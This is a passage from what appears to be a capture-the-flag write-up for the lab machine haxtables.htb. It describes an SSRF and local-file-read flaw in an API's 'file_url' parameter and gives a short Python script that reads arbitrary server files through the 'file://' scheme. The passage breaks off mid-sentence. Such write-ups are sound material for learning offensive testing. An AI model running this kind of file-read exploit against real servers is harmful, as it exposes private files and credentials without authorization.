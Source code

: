 In API docs, There is a parameter in v3 API `file_url` which is vulnerable for SSRF

![](screenshots/http-10.10.11.198-index.phppage-api-ssrf.png)

Also vulnerable for LFI file read using `file://` protocol

![](screenshots/http-10.10.11.198-index.phppage-api-lfi.png)

Quick script for api LFI bug.
```py
import requests as r
from sys import argv
import json

host = "http://api.haxtables.htb"
uri = "/v3/tools/string/index.php"

data = {"action":"urldecode","file_url":f"file://{argv[1]}"}
resp = r.post(f"{host}{uri}", json=data)
print(json.loads(resp.text)['data'])
```

Known file structure of web app - 
